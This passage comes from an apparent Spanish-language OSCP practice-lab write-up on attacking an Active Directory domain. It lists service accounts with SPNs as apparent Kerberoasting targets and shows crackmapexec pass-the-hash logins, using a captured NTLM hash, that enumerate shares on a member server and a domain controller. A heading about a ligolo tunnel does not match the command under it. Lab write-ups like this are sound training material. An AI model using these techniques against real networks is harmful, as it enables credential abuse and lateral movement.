 ```powershell
marketing
```

### 🛠️ Usuarios con SPN

| **Nombre** | **Username (samAccountName)** | **Display Name** | **Email (UPN)**                                | **SPN**                | **Last Logon**        | **Pwd Last Set**       | **UAC Flags**                           | **Logon Count** |
| ---------- | ----------------------------- | ---------------- | ---------------------------------------------- | ---------------------- | --------------------- | ---------------------- | --------------------------------------- | --------------- |
| krbtgt     | krbtgt                        | –                | –                                              | `kadmin/changepw`      | 12/31/1600 4:00:00 PM | 3/25/2022 7:43:58 AM   | ACCOUNTDISABLE, NORMAL\_ACCOUNT         | 0               |
| sql\_svc   | sql\_svc                      | sql\_svc         | [sql\_svc@oscp.exam](mailto:sql_svc@oscp.exam) | `MSSQL/MS02.oscp.exam` | 11/10/2022 3:15:51 AM | 12/5/2022 5:49:44 AM   | NORMAL\_ACCOUNT, DONT\_EXPIRE\_PASSWORD | 1               |
| web\_svc   | web\_svc                      | web\_svc         | [web\_svc@oscp.exam](mailto:web_svc@oscp.exam) | `HTTP/MS01.oscp.exam`  | 11/14/2022 6:29:47 AM | 11/10/2022 11:11:19 PM | NORMAL\_ACCOUNT, DONT\_EXPIRE\_PASSWORD | 9               |


* **Generamos el tunnel con ligolo**

```bash
┌──(root㉿kali)-[/home/…/Challenges/4_OSCP-A/AD-Machines/Internal]
└─# crackmapexec smb 10.10.84.142 -u celia.almeda -H e728ecbadfb02f51ce8eed753f3ff3fd -d oscp.exam --shares
SMB         10.10.84.142    445    MS02             [*] Windows 10 / Server 2019 Build 19041 x64 (name:MS02) (domain:oscp.exam) (signing:False) (SMBv1:False)
SMB         10.10.84.142    445    MS02             [+] oscp.exam\celia.almeda:e728ecbadfb02f51ce8eed753f3ff3fd 
SMB         10.10.84.142    445    MS02             [+] Enumerated shares
SMB         10.10.84.142    445    MS02             Share           Permissions     Remark
SMB         10.10.84.142    445    MS02             -----           -----------     ------
SMB         10.10.84.142    445    MS02             ADMIN$                          Remote Admin
SMB         10.10.84.142    445    MS02             C$                              Default share
SMB         10.10.84.142    445    MS02             IPC$            READ            Remote IPC

┌──(root㉿kali)-[/home/…/Challenges/4_OSCP-A/AD-Machines/Internal]
└─# crackmapexec smb 10.10.84.140 -u celia.almeda -H e728ecbadfb02f51ce8eed753f3ff3fd -d oscp.exam --shares
SMB         10.10.84.140    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:oscp.exam) (signing:True) (SMBv1:False)
SMB         10.10.84.140    445    DC01             [+] oscp.exam\celia.almeda:e728ecbadfb02f51ce8eed753f3ff3fd 
SMB         10.10.84.140    445    DC01             [+] Enumerated shares
SMB         10.10.84.140    445    DC01             Share           Permissions     Remark
SMB         10.10.84.140    445    DC01             -----           -----------     ------
SMB         10.10.84.140    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.84.140    445    DC01             C$                              Default share
SMB         10.10.84.140    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.84.140    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.84.140    445    DC01             SYSVOL          READ            Logon server share 
SMB         10.10.84.140    445    DC01             Users           READ 
```

#### Enumeracion Red interna:
